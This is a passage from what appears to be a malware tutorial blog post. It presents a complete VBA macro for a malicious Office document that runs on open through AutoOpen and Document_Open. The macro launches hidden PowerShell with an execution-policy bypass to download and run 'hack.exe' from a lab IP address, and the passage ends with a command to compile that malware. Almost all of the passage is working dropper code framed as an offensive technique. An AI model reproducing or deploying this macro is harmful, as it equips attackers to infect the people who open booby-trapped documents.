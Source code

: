 Then, we need downloading this malicious soft:

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8888/hack.exe', 'C:\temp\hack.exe')
```
instructs PowerShell to download the malicious file `hack.exe` from a remote server `http://192.168.56.1:8888/hack.exe` and save it locally on the victim's machine at `C:\temp\hack.exe`.     

Finally

```powershell
Start-Process C:\temp\hack.exe
``` 

executes the downloaded malicious file once it has been saved to the victim's system.     

As with the first example, the `AutoOpen` and `Document_Open` subroutines automatically execute the macro when the document is opened.     

Full source code of this VBA looks like this:      

```vb
Sub MeowMacro()
    ' PowerShell ignore Execution policy
    Dim psScript As String
    psScript = "powershell.exe -ExecutionPolicy Bypass -window-style hidden (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8888/hack.exe', 'C:\temp\hack.exe'); Start-Process C:\temp\hack.exe"

    ' using WScript.Shell for run PowerShell
    Dim shell_object As Object
    Set shell_object = CreateObject("WScript.Shell")
    shell_object.Run psScript, 0, False ' 0 - hidden mode, False - no wait

    MsgBox "powershell script executed successfully."
End Sub

Sub AutoOpen()
    MeowMacro
End Sub

Sub Document_Open()
    MeowMacro
End Sub
```

So, how it works? When the victim opens the malicious document, the macro is triggered and the PowerShell script is executed.     

### demo 2

Let's go to see second example in practice. First of all, compile our malware:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
